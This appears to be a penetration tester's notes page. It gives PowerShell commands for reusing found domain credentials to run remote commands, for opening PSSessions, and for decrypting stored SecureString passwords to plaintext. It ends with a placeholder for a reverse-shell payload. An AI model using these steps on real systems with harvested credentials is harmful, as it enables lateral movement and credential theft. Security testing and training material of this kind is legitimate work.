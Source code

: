 # Powershell Object Credential Creation

### Command:

    $SecPassword = ConvertTo-SecureString 'PASSWORD' -AsPlainText -Force

    $Cred = New-Object System.Management.Automation.PSCredential('DOMAIN.LOCAL\USERNAME', $SecPassword)

    Invoke-Command -Computer COMPUTER_NAME -Credential $Cred -ScriptBlock { COMMAND_TO_EXECUTE } 

### Use case:

### When we have valid credentials on a domain joined user, but he has no access to RDP or/and WinRM (Remote Desktop Users and Remote Management Users)

### Alternatively, we can authenticate with a PSSession

#### 4) 

    $session = New-PSSession -CompuerName COMPUTER_NAME -Credential $Cred -Authentication AUTHENTICATION_METHOD (CREDSSP foe example)

#### 5) 

    Enter-PSSession $session

## Alternate use case: The credentials found are encrypted in some way. To recover the credentials, we do the following commands:

    echo > pass.txt (Pass the encrypted password to a .txt file)

    $EncryptedString = Get-Content .\pass.txt (Set a variable that opens the content of the .txt file we created earlier)

    $SecureString = ConvertTo-SecureString $EncryptedString 

    $Credential = New-Object System.Management.Automation.PSCredential -ArgumentList "username",$SecureString

    echo $Credential.GetNetworkCredential().password (Print the decrypted password of the user)

    $username = 'USER'

    $password = 'RECOVERED_PASS'

    $securePassword = ConvertTo-SecureString $password -AsPlainText -Force

    $credential = New-Object Automation.PSCredential($username, $securePassword)

    Invoke-Command -ComputerName localHost -Credential $credential -ScriptBlock{YourNewRevShellPayloadHere} 


